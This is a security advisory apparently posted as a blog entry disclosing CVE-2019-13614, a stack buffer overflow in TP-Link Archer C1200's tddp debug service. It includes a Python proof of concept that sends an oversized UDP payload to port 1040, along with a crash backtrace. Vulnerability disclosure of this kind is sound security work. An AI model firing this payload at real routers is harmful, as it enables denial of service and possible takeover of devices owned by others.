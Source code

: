 ```yaml
---
layout: post
title: "[CVE-2019-13614] tddp CMD_SET_CONFIG_COUNTRY Stack-based Buffer Overflow"
date: 2019-07-15
categories:
    - blog
tags:
    - tp-link
    - buffer overflow
    - stack overflow
keywords: "tp-link, tddp, buffer overflow, stack overflow"
---
```


CMD_SET_CONFIG_COUNTRY in the TP-Link Device Debug protocol in TP-Link Archer C1200 1.0.0 Build 20180502 rel.45702 and earlier is prone to a stack-based buffer overflow, which allows a remote attacker to achieve code execution or denial of service by sending a crafted payload to the listening server.

Proof-of-Concept:
```py
#!/usr/bin/python3

# Copyright 2019 Google LLC.
# SPDX-License-Identifier: Apache-2.0

import sys
import binascii
import socket

rhost = "target_ip"
payload = "A" * 48 + "BBBBCCCCDDDD"

port_send = 1040

tddp_ver = "01"
tddp_command = "a2"
tddp_req = "01"
tddp_reply = "00"
tddp_padding = "%0.16X" % 00

tddp_packet = "".join([tddp_ver, tddp_command, tddp_req, tddp_reply, tddp_padding])

# Send a request
sock_send = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
packet = binascii.unhexlify(tddp_packet)
argument = "%s" % payload
packet = packet + argument.encode()
sock_send.sendto(packet, (rhost, port_send))
sock_send.close()
```

```
#0  0xff725778 in feof () from /lib/libc.so.0
#1  0x0000d56c in ?? ()
Backtrace stopped: previous frame identical to this frame (corrupt stack?)
```
